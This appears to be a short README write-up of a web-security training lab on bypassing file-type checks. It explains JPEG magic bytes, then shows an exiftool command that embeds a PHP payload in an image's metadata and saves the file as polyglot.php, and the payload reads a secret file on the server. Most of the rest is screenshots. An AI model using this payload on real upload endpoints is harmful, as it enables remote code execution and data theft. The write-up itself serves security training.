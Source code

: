 certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes ```FF D8 FF``` examples of [List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures).

 [jpeg header hexadecimal](https://www.google.com/search?q=jpeg+header+hexadecimal&sca_esv=0058b4b1712ac891&sca_upv=1&hl=ar&sxsrf=ACQVn08Br0jHT660r7mpbbB2LF3gXyl_tw%3A1713638375937&source=hp&ei=5wskZv_JN7arkdUPvvSd4A0&iflsig=ANes7DEAAAAAZiQZ99ROJ1gNRrxcn8JcQ3Rnl0HH0wrh&udm=&oq=jpeg+&gs_lp=Egdnd3Mtd2l6IgVqcGVnICoCCAAyBBAjGCcyBBAjGCcyDBAjGIAEGBMYJxiKBTIFEAAYgAQyCBAAGIAEGLEDMgoQABiABBgKGMsBMgoQABiABBgKGMsBMgUQABiABDIFEAAYgAQyCBAAGIAEGMsBSLEvUABYoxtwAXgAkAEAmAHiAqABrAqqAQcwLjQuMC4yuAEDyAEA-AEBmAIHoAL8CqgCCsICChAjGIAEGCcYigXCAgsQABiABBixAxiDAcICCxAuGIAEGLEDGIMBwgILEC4YgAQY0QMYxwHCAgcQIxgnGOoCwgINEC4Y0QMYxwEYJxjqAsICCRAAGIAEGAEYCsICBRAuGIAEmAMPkgcHMS40LjAuMqAHwy4&sclient=gws-wiz)

 This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ```ExifTool```, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata. 



 # Practice
 ### Lab: Remote code execution via polyglot web shell upload
 
 
 ![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/f4132829-382f-42a8-8a7f-30b0f5d52dc1)

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/b5812496-03e0-4f58-94f4-1ac2c1aa1624)




### We upload normal image , we will using ```exiftool``` to put php payload on image.

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/1532b481-2fc4-4a7f-a4fb-6cab06850443)

## Inject payload on image:

```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/a4aa33b0-70ed-412b-8895-50ff5c197046)


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/9353135e-f87e-4f94-8f38-359d84d020a5)

# Thanks ...
